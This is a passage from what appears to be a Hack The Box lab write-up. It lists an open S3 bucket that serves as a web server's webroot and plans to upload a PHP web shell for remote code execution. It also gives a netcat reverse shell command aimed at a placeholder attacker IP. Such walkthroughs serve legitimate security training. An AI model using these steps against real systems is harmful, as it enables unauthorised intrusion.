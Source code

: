 We can interact with this S3 bucket with the aid of the `awscli` utility. It can be installed on Linux using the following command:

`sudo apt install awscli`.

Before using it, first, we need to configure it using the `aws configure` command.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ aws configure
	AWS Access Key ID [None]: temp 
	AWS Secret Access Key [None]: temp
	Default region name [None]: temp
	Default output format [None]: temp

We can list all of the S3 buckets hosted by the server by using the `ls` command.
Then, the same `ls` command to list all objects and common prefixes under the specified bucket.

`aws --endpoint=http://s3.thetoppers.htb s3 ls`
`aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`


	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 ls
	2024-08-31 06:24:33 thetoppers.htb
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-04ijrv9nft]─[~]
	└──╼ [★]$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
	                           PRE images/
	2024-08-31 06:24:33          0 .htaccess
	2024-08-31 06:24:33      11952 index.php


We see the files `index.php`, `.htaccess` and a directory called `images` in the specified bucket. It seems like this is the webroot of the website running on **port 80** . So the Apache server is using this S3 bucket as storage.

### Remote Code Execution (Backdoor)

[Detailed article on PHP backdoor exploit here.](https://secure.wphackedhelp.com/blog/web-shell-php-exploit/)

`awscli` has got another feature that allows us to copy files to a remote bucket. We already know that the website is using PHP. Thus, we can try uploading a PHP shell file to the `S3` bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and **we will achieve remote code execution**.

## Reverse Shell with PHP

The steps of establishing a reverse shell connection in general:
1. Set up `netcat` listening on some port on the attacker machine.
2. Create a script that fires up a `netcat` command parametrized to offer a shell to the attacker IP address on the specified port. Get the target to run that script while attacker is listening with `netcat`.
   *(`nc -e /bin/bash <atacker's IP> <port>` for unix, where `-e /bin/bash` is possibly only available on Kali)*

We can use the following PHP one-liner which uses the `system()` function which takes the URL parameter `cmd` as an input, using the [`$_GET` php associative array of variables](https://www.php.net/manual/en/reserved.variables.get.php), and executes it as a system command:

